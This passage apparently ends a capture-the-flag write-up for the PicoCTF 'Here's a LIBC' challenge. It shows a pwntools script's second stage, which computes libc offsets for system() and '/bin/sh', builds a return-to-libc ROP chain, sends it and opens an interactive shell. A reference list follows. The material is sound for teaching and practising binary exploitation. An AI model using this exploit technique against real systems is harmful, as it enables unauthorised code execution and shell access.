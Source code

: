 ```python
log.info(f"{hex(base_address_of_libc)=}")

# Calculate addresses of system() and "/bin/sh"
system_offset = 0x4F4E0
system_address = base_address_of_libc + system_offset

bin_sh_offset = 0x1B40FA
bin_sh_address = base_address_of_libc + bin_sh_offset

# For stack alignment on x64
ret_instruction = 0x40052E

# Second payload: call system("/bin/sh")
second_payload = [
    junk,
    p64(pop_rdi),
    p64(bin_sh_address),
    p64(ret_instruction),
    p64(system_address),
]

second_payload = b"".join(second_payload)
p.sendline(second_payload)

# Get interactive shell
p.interactive()
```

---

## References and sources

* [PicoCTF: Here's a LIBC](https://play.picoctf.org/practice/challenge/179?category=6&difficulty=3&originalEvent=34&page=1&search=)
*  [YouTube: Binary exploitation with ret2libc](https://www.youtube.com/watch?v=tMN5N5oid2c&t=580s)
* [Wikipedia: Return-to-libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack)
* [iRed Team - ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)
* [System Overlord - GOT and PLT for pwning](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
*  [pwninit - auto-patch binaries](https://github.com/io12/pwninit)
*  [Understanding x86 Assembly](https://tirkarp.medium.com/understanding-x86-assembly-5d7d637efb5)
* [Wikipedia: x86 calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions)
* [pwninit (GitHub)](https://github.com/io12/pwninit)

